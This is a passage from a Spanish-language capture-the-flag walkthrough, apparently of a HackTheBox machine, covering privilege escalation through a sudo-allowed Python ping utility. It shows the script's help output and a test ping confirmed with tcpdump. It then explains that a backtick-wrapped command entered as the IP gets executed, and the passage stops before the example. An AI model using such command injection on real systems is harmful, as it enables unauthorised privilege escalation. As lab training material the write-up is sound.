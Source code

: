 Podemos ejecutar como pepper sin proporcionar contraseña el script simpler.py, hay que examinar que hace ese script:

```bash
www-data@jarvis:/home/pepper$ sudo -u pepper /var/www/Admin-Utilities/simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
```

Nos muestra como podemos usarlo, y una de las opciones es poder hacer un ping:

```bash
www-data@jarvis:/home/pepper$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP: 10.10.16.198
PING 10.10.16.198 (10.10.16.198) 56(84) bytes of data.
64 bytes from 10.10.16.198: icmp_seq=1 ttl=63 time=101 ms
64 bytes from 10.10.16.198: icmp_seq=2 ttl=63 time=50.6 ms
^C
www-data@jarvis:/home/pepper$ 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
04:47:10.056312 IP logger.htb > 10.10.16.198: ICMP echo request, id 1539, seq 1, length 64
04:47:10.056361 IP 10.10.16.198 > logger.htb: ICMP echo reply, id 1539, seq 1, length 64
04:47:11.006273 IP logger.htb > 10.10.16.198: ICMP echo request, id 1539, seq 2, length 64
04:47:11.006290 IP 10.10.16.198 > logger.htb: ICMP echo reply, id 1539, seq 2, length 64
```

Vale funciona corractamente, pero y ¿como nos aprovechamos de esto? Pues en bash si podemos poner en el input ``cualquier comando`` al ejecutar el script nos va a ejecutar tambien ese comando, un ejemplo sencillo seria este:
